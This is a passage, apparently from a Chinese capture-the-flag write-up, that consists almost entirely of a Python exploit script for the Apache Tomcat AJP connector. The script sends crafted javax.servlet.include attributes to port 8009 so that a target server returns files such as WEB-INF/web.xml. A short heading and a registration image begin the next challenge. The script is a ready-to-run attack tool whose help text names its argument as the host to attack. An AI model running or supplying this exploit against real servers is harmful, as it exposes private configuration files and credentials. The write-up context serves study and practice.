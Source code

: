 ```python
        self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
        print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
        if user is not None and password is not None:
            self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
        for h in headers:
            self.forward_request.request_headers[h] = headers[h]
        for a in attributes:
            self.forward_request.attributes.append(a)
        responses = self.forward_request.send_and_receive(self.socket, self.stream)
        if len(responses) == 0:
            return None, None
        snd_hdrs_res = responses[0]
        data_res = responses[1:-1]
        if len(data_res) == 0:
            print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
        return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf.jsp',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data for d in data]))


```

### 掉进阿帕奇的工资

先注册

![img](https://img.crzliang.cn/img/202406012237584.jpg)
